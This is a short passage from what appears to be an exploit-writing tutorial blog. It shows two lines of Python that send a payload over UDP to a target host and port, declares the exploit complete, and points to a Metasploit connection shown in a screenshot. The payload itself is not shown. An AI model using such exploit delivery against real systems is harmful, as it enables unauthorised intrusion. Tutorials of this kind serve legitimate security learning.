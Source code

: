 ```python

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```
We have successfully made our exploit!
If you connect to the port using metasploit you should get the following:

[![](https://2.bp.blogspot.com/-Jr0HKvI0E9c/UK6nzxG6nWI/AAAAAAAAAJI/pYBYtSn0I1Y/s0/Selection_047.png)](https://2.bp.blogspot.com/-Jr0HKvI0E9c/UK6nzxG6nWI/AAAAAAAAAJI/pYBYtSn0I1Y/s0/Selection_047.png)